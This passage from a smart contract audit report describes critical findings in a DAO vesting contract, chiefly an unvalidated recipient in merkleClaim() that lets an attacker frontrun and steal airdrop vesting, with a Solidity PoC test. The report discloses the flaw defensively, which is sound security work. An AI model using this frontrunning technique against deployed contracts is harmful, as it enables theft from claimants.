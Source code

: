 Critical. Debts will be written off against zero collateral.

#### Recommendation

Modify the variable initialization to be equal to the user's collateral balance.

#### Developer Response

Fixed in [cad853860244462f3856230369461ff9585d1bf1](https://github.com/convex-eth/overtherainbow-dev/commit/cad853860244462f3856230369461ff9585d1bf1).

### 2. Critical - Anyone can steal Merkle claim airdrop

[`merkleClaim()`](https://github.com/convex-eth/overtherainbow-dev/blob/075121327cfb92ec2a6b885d517714d9d099f49a/src/dao/tge/VestManager.sol#L124) function is used to create vesting for a specific account by providing Merkle proof. Attack can frontrun this transaction and change the receiver of the vesting.

#### Technical Details

Merkle node is generated using [following input parameters](https://github.com/convex-eth/overtherainbow-dev/blob/075121327cfb92ec2a6b885d517714d9d099f49a/src/dao/tge/VestManager.sol#L143): `_account`, `_index` and `_amount`. The function has an additional input parameter that is not validated [`_recipient`](https://github.com/convex-eth/overtherainbow-dev/blob/075121327cfb92ec2a6b885d517714d9d099f49a/src/dao/tge/VestManager.sol#L126). This enables the attacker to use the claim of others airdrops by providing his address as receiver. The owner transaction would revert, and the attacker would create the vesting with his recipient's address.

The following PoC shows that the attacker can frontrun the user, use the same proof, and change the `_recipient` parameter. Add the test to the file: `test/dao/tge/VestManagerHarness.t.sol`

```solidity
function test_AirdropClaim_Attacker() public {
    assertNotEq(address(vestManager), address(0));
    (address[] memory users, uint256[] memory amounts, bytes32[][] memory proofs) = getSampleMerkleClaimData();
    address attacker = address(0x4774);

    uint256 i = 0;
    // attacker provides his address as receiver
    vestManager.merkleClaim(
        users[i],
        attacker, // attacker has changed `_recipient` param
        amounts[i],
        VestManager.AllocationType.AIRDROP_VICTIMS,
        proofs[i],
        i
    );
    // user claim will revert because the attacker has claimed the vest
    vm.expectRevert("already claimed");
    vestManager.merkleClaim(
        users[i],
        users[i],
        amounts[i],
        VestManager.AllocationType.AIRDROP_VICTIMS,
        proofs[i],
        i
    );
}
```
